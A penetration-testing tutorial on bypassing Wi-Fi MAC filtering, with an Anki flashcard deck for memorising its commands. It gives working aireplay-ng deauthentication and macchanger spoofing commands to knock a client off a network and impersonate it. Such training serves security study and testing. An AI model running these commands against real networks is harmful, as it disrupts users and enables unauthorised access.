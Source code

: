 # Wi-Fi Pentesting Chain #9: Bypassing MAC Filtering

MAC filtering is a weak access control method where only devices with approved MAC addresses are allowed to connect. Since MAC addresses can be spoofed, this control can be bypassed.

---

## Step 1: Identify Target Network and Clients

1. Put your interface into monitor mode if it’s not already:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Use `airodump-ng` to scan for networks and associated clients:
   ```bash
   sudo airodump-ng wlan0mon
   ```

   **What you’re looking for:**
   - Target **BSSID** (the AP’s MAC address).
   - **ESSID** (network name).
   - **Client MAC addresses** (STATION field).

   **Diversion:**
   - If you see **no clients connected**, MAC spoofing won’t help unless you know an allowed MAC address. You may have to wait until a client connects.

---

## Step 2: Select a Client MAC Address to Imitate

- Pick one of the connected client MACs.
- Note that if you spoof an address that is still connected, you’ll cause **MAC collisions**, which may:
  - Disrupt both connections.
  - Trigger suspicion.

**Better approach:**
- Wait until the client disconnects naturally.
- Or force the client to disconnect using a **deauthentication attack**:
  ```bash
  sudo aireplay-ng -0 5 -a <BSSID> -c <Client_MAC> wlan0mon
  ```

---

## Step 3: Spoof Your MAC Address

1. Stop monitor mode to work with a managed interface:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Check your current MAC address:
   ```bash
   sudo macchanger wlan0
   ```

3. Change your MAC address to the client’s MAC:
   ```bash
   sudo ifconfig wlan0 down
   sudo macchanger wlan0 -m <Client_MAC>
   sudo ifconfig wlan0 up
   ```

4. Verify the change:
   ```bash
   ifconfig wlan0
   ```

---

## Step 4: Connect to the Network

- Now that your MAC matches an authorized client, connect normally with the password:
  ```bash
  sudo wpa_supplicant -c wpa.conf -i wlan0 &
  sudo dhclient wlan0
  ```

**Diversion:**
- If the AP also has a **5 GHz band** with no active clients, spoof a client’s MAC from 2.4 GHz but connect to 5 GHz. This avoids collisions.

---

## Step 5: Confirm Successful Connection

- Check that you have an IP:
  ```bash
  ifconfig wlan0
  ```
- Verify connectivity with ping:
  ```bash
  ping -c 4 8.8.8.8
  ```

If successful, you’ve bypassed MAC filtering.

---

## Anki Deck:
```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6
1aB3cD9fGh	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What is MAC filtering in Wi-Fi security?	A method that restricts network access to devices with pre-approved MAC addresses.	wifi
2bC4dE8gHi	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	Why is MAC filtering considered weak security?	Because MAC addresses can be easily spoofed by attackers.	wifi
3cD5eF7hIj	Basic	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What happens if two devices use the same MAC address on a network?	It causes a MAC collision, disrupting connectivity for both devices.	wifi
4dE6fG1iJk	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What `airodump-ng` command scans for networks and clients using the `wlan0mon` interface?	<code>sudo airodump-ng wlan0mon</code>	wifi
5eF7gH2jKl	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What `aireplay-ng` command sends 5 deauth packets to client &lt;Client_MAC&gt; on AP &lt;BSSID&gt;?	<code>sudo aireplay-ng -0 5 -a &lt;BSSID&gt; -c &lt;Client_MAC&gt; wlan0mon</code>	wifi
6fG8hI3kLm	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command stops monitor mode on `wlan0mon`?	<code>sudo airmon-ng stop wlan0mon</code>	wifi
7gH9iJ4lMn	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command displays the current and permanent MAC address of `wlan0`?	<code>sudo macchanger wlan0</code>	wifi
8hI0jK5mNo	Cloze (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What sequence of commands changes `wlan0` MAC to &lt;Client_MAC&gt;?<br><br>{{c1::sudo ifconfig wlan0 down}}<br>{{c1::sudo macchanger wlan0 -m &lt;Client_MAC&gt;}}<br>{{c1::sudo ifconfig wlan0 up}}		wifi
9iJ1kL6nOp	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command verifies the new MAC address of `wlan0`?	<code>ifconfig wlan0</code>	wifi
0jK2lM7oPq	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command connects to a Wi-Fi network using `wpa_supplicant` with config file `wpa.conf`?	<code>sudo wpa_supplicant -c wpa.conf -i wlan0 &amp;</code>	wifi
aK3lN8pQrR	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command requests an IP from DHCP after connecting with `wpa_supplicant`?	<code>sudo dhclient wlan0</code>	wifi
bL4mO9qRsS	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command checks if you successfully obtained an IP on `wlan0`?	<code>ifconfig wlan0</code>	wifi
cM5nP0rStT	Basic (type in the answer)	Ops::WiFi Gym::Chain 09: Bypassing MAC Filtering	What command tests connectivity by pinging Google DNS?	<code>ping -c 4 8.8.8.8</code>	wifi
```